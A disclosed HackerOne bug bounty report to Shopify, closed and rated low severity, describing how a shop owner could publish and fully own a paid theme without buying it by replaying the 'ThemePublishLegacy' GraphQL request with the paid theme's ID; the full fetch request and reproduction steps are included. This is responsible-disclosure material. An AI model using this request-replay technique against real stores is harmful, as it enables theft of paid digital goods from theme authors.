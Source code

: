 # Ability to publish a paid theme without purchasing it.

## Report Details
- **Report ID**: 927567
- **URL**: https://hackerone.com/reports/927567
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-07-20T01:59:42.448Z
- **Disclosed**: 2020-08-27T19:41:33.735Z

## Reporter
- **Username**: saltymermaid
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

## Description
I found out that it is possible to publish a paid theme without purchasing it. I remember trying this some time ago and it seemed to be safe from this kind of attack.

## Steps to reproduce
1. Make sure you have the default theme installed and that it is published.
2. Install any *free* theme
3. Install any *paid* theme
4. Get the paid theme ID by clicking the "Customize" link and extract the ID from the url (https\://yourshop.myshopify.com/admin/themes/***[theme_id]***/editor) and save it for later.
5. Publish the free theme you install from step #2
6. From your developper tool, copy the "*ThemePublishLegacy*" XHR request as Fetch\

    ```
    fetch("https://yourshop.myshopify.com/admin/online-store/admin/api/unversioned/graphql", {
      "headers": {
        "accept": "application/json",
        "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7",
        "cache-control": "no-cache",
        "content-type": "application/json",
        "pragma": "no-cache",
        "sec-fetch-dest": "empty",
        "sec-fetch-mode": "cors",
        "sec-fetch-site": "same-origin",
        "x-online-store-web": "1"
      },
      "referrerPolicy": "no-referrer",
      "body": "{\"operationName\":\"ThemePublishLegacy\",\"variables\":{\"id\":\"gid://shopify/OnlineStoreTheme/[THEME_ID]\"},\"query\":\"mutation     ThemePublishLegacy($id: ID!) {\\n  onlineStoreThemePublish(id: $id) {\\n    theme {\\n      id\\n      __typename\\n    }\\n    userErrors {\\n      field\\n          message\\n      __typename\\n    }\\n    __typename\\n  }\\n}\\n\"}",
      "method": "POST",
      "mode": "cors",
      "credentials": "include"
    });
```
7. Paste the request in your developer tool console and replace the free theme ID with the paid theme ID you save at step #4
 7.1. `..."body": "{\"operationName\":\"ThemePublishLegacy\",\"variables\":{\"id\":\"gid://shopify/OnlineStoreTheme/`**`[THEME_ID]`**`\"},\"query\":\"mutation...`
8. Refresh the page and you should see that the paid theme is now publish & active.

Also, after the theme is published, it seems like we own it. So, at this point, if you publish another theme (the free one), you should see that the the yellow "Theme trial"  badge is missing and that you can rename, edit and download the theme files.

## Impact

Ability to install paid theme without purchasing it could lead to content stealing and lost of profit. There is also some unwanted information disclosure since we can edit the theme code and download the files after its published.

If you need extra details, images or a POC video, please let me know!

Thank you!

## Attachments
No attachments

